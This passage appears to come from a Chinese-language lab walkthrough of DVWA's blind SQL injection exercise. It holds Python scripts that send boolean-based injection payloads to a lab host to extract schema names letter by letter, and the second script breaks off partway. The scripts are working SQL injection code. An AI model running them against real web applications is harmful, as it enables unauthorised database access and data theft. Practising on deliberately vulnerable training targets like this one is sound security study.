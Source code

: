 ``````
import urllib.request

header={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
    ,'Cookie':'PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low'}
payload="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
urlhead="http://192.168.123.20/vulnerabilities/sqli_blind/?id=1"
end="&Submit=Submit#"
#1%27+and+mid%28database%28%29%2C1%2C1%29%3D%27d%27%23
if __name__ == '__main__':
    a=""
    c = 0
    for k in range(0,20):
        a+="\r\n"+str(k)+":"
        if c==2:
            print("结束了")
            exit()
        for i in range(1,20):
            for j in payload:
                #url="%27+and+mid%28database%28%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                url="%27+and+mid%28%28select+schema_name+from+information_schema.schemata+limit+"+str(k)+"%2C1%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
                #' and mid((select schema_name from information_schema.schemata limit 0,1),1,1)='i'#
                try:
                    rp = urllib.request.Request(urlhead + url + end, headers=header)
                    respon = urllib.request.urlopen(rp)
                    html = respon.read().decode('utf-8')
                    if "User ID exists in the database." in html:
                        a+=j
                        print(a)
                        c = 0
                        break
                except:
                    continue
        c += 1
```

![1559652375713](assets/1559652375713.png)

#### 查询数据库的全部表

```python
import urllib.request

header={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
    ,'Cookie':'PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low'}
payload="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
urlhead="http://192.168.123.20/vulnerabilities/sqli_blind/?id=1"
end="&Submit=Submit#"
#1%27+and+mid%28database%28%29%2C1%2C1%29%3D%27d%27%23
if __name__ == '__main__':
    a=""
    c = 0
    for k in range(0,20):
        a+="\r\n"+str(k)+":"
        if c==2:
            print("结束了")
            exit()
        for i in range(1,20):
            for j in payload:
                #url="%27+and+mid%28database%28%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
``````